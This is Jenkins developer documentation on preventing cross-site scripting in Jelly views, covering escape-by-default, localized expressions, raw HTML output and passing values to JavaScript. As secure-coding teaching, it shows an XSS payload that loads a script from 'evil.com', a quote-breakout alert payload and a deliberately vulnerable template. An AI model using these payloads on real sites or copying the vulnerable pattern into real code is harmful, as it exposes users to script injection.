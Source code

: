 = Preventing Cross-Site Scripting in Jelly views

// Adapted from https://wiki.jenkins.io/display/JENKINS/Jelly+and+XSS+prevention

Cross-Site Scripting (XSS) is a web application vulnerability that allows users with the ability to control what gets shown to other users on a web page to run scripts in their browser.

Jenkins displays content written by users with different levels of access in many different areas, and the Jelly files typically contain placeholders like this:

[source, xml]
----
<h1>Project ${it.name}</h1>
----

If `it.name` evaluates to a string containing HTML tags, those will be placed verbatim into the output, for example:

[source, html]
----
<h1>Project <script src="https://evil.com/exploit-jenkins.js"></script>my java build</h1>
----

[NOTE]
In old versions of Jenkins, use of the `<st:out>` tag allowed escaping specific expressions.
This document discusses the much safer escape by default approach (below).

=== Escaping by Default

Since Jenkins 1.339, it is possible to instruct the Jelly processor to escape `+${...}+` expressions like the above by default.
To do that, place the following XML processing instruction in the first line of the Jelly document:

[source, xml]
----
<?jelly escape-by-default='true'?>
<!-- rest of the document here -->
----

Note that this only affects the use of `+${...}+` among PCDATA, and not in attribute values, so that Jelly tag invocations don't result in surprising behavior.

==== Keep Your Your Toolchain Updated

Since plugin POM 1.596, Jelly files are required to escape variables by default, and the build fails if such problems are found.
Therefore it is strongly recommended to use at least that version of the plugin parent POM to prevent accidental XSS vulnerabilities.

It's recommended to always use the newest available 2.x or newer plugin parent POM.
link:../../plugin-development/updating-parent[Learn more.]

=== Escaping and Localized Expressions

Localized expressions of the form `+${%expression}+` are also affected by the above in the following ways:

1. The localized expression (read from a resource file) is not escaped, and allows inline HTML.
2. Any arguments to the expression are escaped.

This means the following works as expected (rendering the `a` tag), and still prevents XSS problems in the user-specified name:

.index.jelly
[source, xml]
----
<?jelly escape-by-default='true'?>
<p>${%blurb(it.displayName)}</p>
----

.index.properties
[source]
----
blurb=<a href="https://jenkins.io/">{0}</a>
----

=== Rendering Pre-Escaped Content

In rare cases, it might be necessary to render content that has previously been escaped or otherwise processed, without further escaping.
A common reason to do this is to support formatting using the jenkinsdoc:MarkupFormatter[markup formatter configured for the current Jenkins instance], with might support a plugin:antisamy-markup-formatter[safe subset of HTML], or other markup languages, like plugin:pegdown-formatter[Markdown].
In those cases, the security is controlled by the markup formatter.

To do that, use the `<j:out>` Jelly tag:

[source, xml]
----
<?jelly escape-by-default='true'?>
<j:jelly xmlns:j="jelly:core">
  <j:out value="${app.markupFormatter.translate(it.description)}"/>
</j:jelly>
----

To pass arguments to localized expressions without escaping them in escaped-by-default Jelly files, wrap them in a call to `Functions#rawHtml`:

[source, xml]
----
<?jelly escape-by-default='true'?>
<j:jelly xmlns:j="jelly:core">
  <h1>${%welcomeMessage(h.rawHtml(it.markupFormattedName)}</h1>
</j:jelly>
----

[WARNING]
If the source of the argument to `j:out` or `Functions#rawHtml` isn't completely trusted, these might result in an XSS vulnerability.

=== Passing values to JavaScript

==== The bad way

In a situation where you need to pass information to JavaScript, you might inject the value directly inside the script like in the following snippet. 

[source, xml]
----
<?jelly escape-by-default='true'?>
<j:jelly xmlns:j="jelly:core">
  <h1>Random title</h1>
  <div id="target-div"></div>

  <script>
     var textToInsert = "${variableFromJava}";
     document.querySelector('#target-div').innerText = textToInsert;
  </script>
</j:jelly>
----

In this case, if the `variableFromJava` comes from an unsafe source, it could be used to create a cross-site scripting (XSS) attack.
For example the following code will be executed: `";alert(123);"`. 
The JavaScript sent to the client will be:

[source, javascript]
----
var textToInsert = "";alert(123);"";
----

[NOTE]
Within the payload, we close the existing double quote, then execute our code and finally open a double quote to match the existing one.
That will result in a script without any format error.

==== The good way

If you need to pass a variable to your JavaScript, we strongly recommend to use this approach instead:

[source, xml]
----
<?jelly escape-by-default='true'?>
<j:jelly xmlns:j="jelly:core">
  <h1>Random title</h1>
  <div id="target-div" data-inserted-from-java="${variableFromJava}"></div>

  <script>
     var targetDiv = document.querySelector('#target-div');
     var textToInsert = targetDiv.getAttribute('data-inserted-from-java'); 
     // equivalent of: targetDiv.dataset.insertedFromJava
     targetDiv.innerText = textToInsert;
  </script>
</j:jelly>
----

// link: and the ++ are required due to the * symbol in the URL
The use of the `data-*` attributes allow the developer either to use `getAttribute` or the `dataset` property, 
for more information see the link:++https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes#attr-data-*++[MDN documentation].

In this case you are taking advantage of the Jelly escape mechanism to ensure that the result is just a String. 
If we try to inject a `"`, it will be automatically converted to `&amp;quot;`.

In the previous (vulnerable) example, the injected code was inside a context of "code to be interpreted".
